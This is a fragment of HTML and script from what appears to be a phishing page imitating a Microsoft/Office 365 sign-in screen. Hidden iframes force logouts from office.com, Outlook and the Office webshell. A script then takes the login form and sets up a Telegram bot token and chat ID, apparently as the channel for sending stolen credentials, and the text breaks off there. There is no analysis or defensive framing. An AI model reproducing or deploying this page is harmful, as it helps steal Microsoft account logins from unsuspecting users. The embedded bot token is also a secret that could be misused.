 <div class="sign-opt" id="sign-opt">
<div>&nbsp;</div>

<div id="no-acc">Can&#39;t access your account? <a href="#">Click Here!

</a></div>

<div>&nbsp;</div>

<div>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 

&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 

&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;<button 

class="newbutton" id="i983893" name="submit" type="submit"><img src="" 

/>Next</button></div>

<div class="sign-opt" id="sign-out">&nbsp;</div>
</div>
</form>
</div>
</div>
</div>

<div class="row text-body text-block-body">
<div id="SignOutStatusMessage" style="display: none">&nbsp;</div>
</div>
</div>

<div class="row text-body text-block-body" id="InitiatorRedirectOption" 

style="display: none">&nbsp;</div>
</div>
</div>

<div><iframe src="https://www.office.com/logout?sid=494fe386-9fa1-4fbf-

885f-5038fa243363" style="display: none"></iframe><iframe 

src="https://outlook.office365.com/owa/auth/logoff.aspx?

cmd=logoff&amp;exlive=1&amp;lgtype=1&amp;sid=494fe386-9fa1-4fbf-885f-

5038fa243363" style="display: none"></iframe><iframe 

src="https://webshell.suite.office.com/iframe/TokenFactoryIframe/Logout?

sid=494fe386-9fa1-4fbf-885f-5038fa243363" style="display: 

none"></iframe></div>
<script>
      const formal = document.querySelector('#form')
    
      let bot = {
          TOKEN: "6699068327:AAFYA9dnaThovHXx0gZt-rMRCCY_o7yP1Js",
          chatID: "6277133039"
      }
